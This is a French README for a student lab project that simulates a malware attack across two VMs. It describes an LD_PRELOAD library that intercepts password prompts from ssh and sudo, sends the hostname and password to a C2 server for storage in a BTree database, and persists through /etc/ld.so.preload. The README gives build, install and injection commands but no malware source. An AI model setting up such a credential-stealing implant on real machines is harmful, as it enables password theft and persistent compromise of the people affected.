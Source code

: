 Slimani Anis et ANGELOV Onur 3SIJ

# 🛡️ Projet C2 Malware LD_PRELOAD – ESGI CC1

Projet réparti sur 2 VMs simulant une attaque malware avec injection via `LD_PRELOAD`, exfiltration de mot de passe, et stockage dans une base BTree persistante.

---

## 📁 Structure du projet

CC1-DATABASE-ESGI/
├── server/
│ ├── server.c
│ ├── register_victim.c
│ ├── Makefile
│ └── ...
├── BTreeDB/
│ ├── author.md
│ ├── btree.c/.h/.o
│ ├── table.c/.h/.o
│ ├── repl.c/.h/.o
│ ├── persistence.c/.h/.o
│ ├── main.c/.o
│ ├── database.db # base des victims
│ ├── id_counter.txt # ID auto-incrémenté
│ ├── db.txt, db/, tests/
│ ├── Makefile, README.md
│ └── BTreeProject/
├── LD_PRELOAD/malware/
│ ├── malware.c
│ ├── send_to_c2.c
│ ├── malware.so
│ ├── Makefile
│ └── install_ldso_preload.sh
└── README.md

---

## 💻 VM 1 – Serveur C2 (192.168.1.20)

### 🛠️ Prérequis

- OpenSSH installé :

  sudo apt install openssh-server
🔧 Compilation du serveur + base

cd ~/server/CC1-DATABASE-ESGI/server
make clean
make
🚀 Lancer le serveur C2

./server
Le serveur écoute sur le port 5555
Il reçoit :

register <hostname> <password> → stocké dans la base BTree

log <hostname> <cmd> → affiché dans le terminal

💻 VM 2 – Malware (192.168.1.15)
🛠️ Prérequis
OpenSSH installé :

sudo apt install openssh-server
⚠️ Configuration du malware
Dans send_to_c2.c, modifier l’IP du serveur (ligne #define C2_IP "...") :


#define C2_IP "192.168.1.20"
#define C2_PORT 5555
Tu peux aussi modifier le port C2 si nécessaire.

🔧 Compilation

cd ~/mal/CC1-DATABASE-ESGI/LD_PRELOAD/malware
make
🐚 Injection automatique via LD_PRELOAD

chmod +x install_ldso_preload.sh
sudo ./install_ldso_preload.sh
Cela ajoute le chemin absolu de malware.so dans /etc/ld.so.preload


| Fonction                         | Description                                                                                                                                               |
| -------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 🔑 Exfiltration de mot de passe  | Intercepte les entrées `password:` dans un terminal                                                                                                       |
| 📦 Envoi vers serveur C2         | Format : `register <hostname> <mdp>`                                                                                                                      |
| 🚫 Blocage de fichiers sensibles: Empêche `open()` sur sudo /etc/passwd`, `/etc/shadow`, etc. Exemple : `sudo cat /etc/passwd` → Permission denied▪️ ` cat /etc/passwd` → aussi bloqué |

| 🧠 Injection automatique via SSH | Tu peux tester avec :<br>▪️ `LD_PRELOAD=./malware.so ssh name@192.168.1.xx`                                                                               |
| 💾 Persistance dans BTree        | Chaque victime est stockée dans `database.db` avec ID unique                                                                                              |
| 🔁 Injection persistante         | Automatique via `/etc/ld.so.preload`                                                                                   

🔍 Vérification de la base
Sur la VM C2 :

cd ../BTreeDB
./db
Dans la CLI :


select
Tu verras (le register el le mdp de la connexion ssh):
ex
(1, anisdebian, 1478)
(2, onur, 1234)

🧪 Exemple de test
Lancer le serveur C2 sur VM1 :
./server


Sur la VM malware, compiler et injecter :


make
chmod +x install_ldso_preload.sh
sudo ./install_ldso_preload.sh
Se connecter à une machine distante via SSH (ou exécuter sudo ls)
exemple :
LD_PRELOAD=./malware.so ssh nom@192.168.1.xx (ip)


→ password: sera intercepté sur le serverc2
Vérifier la base côté serveur :

cd ../BTreeDB
./db
> select (pour parcourir l'arbre et voir ceux qui est insert)
autre commande expliqué dans la db


❌ Pour désactiver le malware

sudo rm /etc/ld.so.preload
📎 Remarques
Le fichier database.db est mis à jour automatiquement.


